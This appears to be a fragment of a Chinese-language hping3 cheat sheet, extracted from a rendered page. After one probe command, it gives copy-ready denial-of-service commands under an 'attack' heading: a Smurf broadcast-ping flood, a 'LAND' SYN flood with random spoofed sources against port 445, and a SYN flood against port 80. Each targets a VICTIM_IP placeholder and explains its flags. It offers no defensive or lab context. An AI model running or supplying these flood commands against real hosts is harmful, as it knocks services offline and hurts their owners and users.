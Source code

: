 ```
hping3 -c 1 -V -p 80 -s 5050 -Y 0daysecurity.com
```

## 3.攻击

#### Smurf攻击

这是一种拒绝服务攻击，它通过欺骗性广播ping消息淹没目标系统，参考[smurf攻击](https://baike.baidu.com/item/Smurf攻击/9112141?fr=aladdin)

```
hping3 -1 --flood -a VICTIM_IP BROADCAST_ADDRESS
```

#### DOS LAND攻击

同样是DOS攻击的一种，

```
hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP

--flood：尽快发送数据包。不显示回复。

--rand-dest：随机目标地址模式。

-V <-详细

-c --count：数据包计数

-d --data：数据大小

-S --syn：设置SYN标志

-w --win：winsize（默认64）

-p --destport [+] [+] <port>目标端口（默认为0）ctrl + z inc / dec

-s --baseport：基本源端口（默认随机）
```



#### DOS攻击

```
hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source VICTIM_IP
 
```

-c:发送数据包的个数

-d:每个数据包的大小

-S:发送SYN数据包

-w：TCP window大小
